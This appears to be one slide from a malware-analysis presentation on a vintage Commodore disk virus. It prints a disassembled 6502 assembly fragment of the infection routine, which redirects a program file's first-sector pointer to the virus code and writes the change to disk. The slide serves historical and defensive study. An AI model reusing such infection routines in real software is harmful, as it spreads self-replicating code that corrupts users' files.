

# CODE SNIPPET

If the PRG file has been
found, the real infection takes place

LDA        DAT_0303,X        ; Load Track of the first sector of file
CMP        #0x12             ; Check if it points to DIRECTORY
BEQ        LAB_065c          ; Already infected, exits
STA        B4_TRACK_000E     ; Store Track number in buffer #4
LDA        DAT_0304,X        ; Load Sector number of file
STA        B4_SECTOR_000F    ; Store sector number in buffer #4
LDA        B1_TRACK_0008     ; Load Track # of saved virus ($12)
STA        DAT_0303,X        ; Store it instead of the previous
LDA        B1_SECTOR_0009    ; Load Sector # of saved virus code
STA        DAT_0304,X        ; Store it instead of the previous
LDA        #0x90             ; Now save the sector to disk
JSR        FUN_04b9
CLC                          ; Clear carry for returning the result
RTS

The first sector file pointer is replaced with the sector of the Virus, saved on DIRECTORY Track. Then the last sector of Virus is pointed to the original PRG sector, trying to keep the PRG file working (even if this does not look always successful).
61